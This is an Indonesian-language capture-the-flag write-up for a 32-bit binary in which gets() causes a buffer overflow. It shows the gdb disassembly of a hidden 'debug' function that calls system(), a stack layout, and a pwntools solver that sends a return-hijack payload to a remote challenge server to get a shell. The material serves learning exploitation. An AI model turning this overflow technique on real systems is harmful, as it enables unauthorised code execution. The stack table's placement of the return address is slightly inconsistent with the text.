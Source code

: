 Fungsi `hah` menggunakan fungsi `gets` yang mempunyai bug `buffer overflow` untuk mengambil inputan dan memiliki panjang `0x48`.

Dalam binary juga terdapat fungsi `debug` yang memanggil shell jika semua validasi terpenuhi.

```py
gdb-peda$ pdisas debug
Dump of assembler code for function debug:
   0x0804851c <+0>:  push   ebp
   0x0804851d <+1>:  mov    ebp,esp
   0x0804851f <+3>:  sub    esp,0x8
   0x08048522 <+6>:  cmp    DWORD PTR [ebp+0x8],0xaabbccdd
   0x08048529 <+13>: jne    0x804854b <debug+47>
   0x0804852b <+15>: sub    esp,0xc
   0x0804852e <+18>: push   0x8048620
   0x08048533 <+23>: call   0x80483a0 <puts@plt>
   0x08048538 <+28>: add    esp,0x10
   0x0804853b <+31>: sub    esp,0xc
   0x0804853e <+34>: push   0x804862b
   0x08048543 <+39>: call   0x80483b0 <system@plt>
   0x08048548 <+44>: add    esp,0x10
   0x0804854b <+47>: nop
   0x0804854c <+48>: leave  
   0x0804854d <+49>: ret    
End of assembler dump.
```

### Exploit

1. Padding sebesar `0x48 + 4 byte` untuk meng-overwrite register `ebp` untuk sampai ke *return addess*.
2. Alamat fungsi `debug`.
3. Argument untuk fungsi `debug` yaitu `0xaabbccdd`.
4. Junk 4 byte sebelum argument `debug`, berikut layout stack.
 
| Register |  Value |
|:---------------------------:|:---------------------------:|
|  `ebp-0x48`  |  `0x41414141`  |
|   `. . .`    |  `0x41414141`  |
|  `ebp-0x4`   |  `0x41414141`  |
|    `ebp`     |  `0x0804851c`  |
|  `ebp+0x4`   |  `????`  |
|  `ebp+0x8`   |  `0xaabbccdd`  |
 
Berikut solver yang dibuat.

```python
from pwn import *

r = remote("asgama.web.id", 40209)

offset    = 72 + 4 
debug     = p32(0x0804851c) 
debug_arg = p32(0xaabbccdd) 

payload  = "A"*offset
payload += debug  
payload += "JUNK"
payload += debug_arg

r.sendline(payload)
r.interactive()
```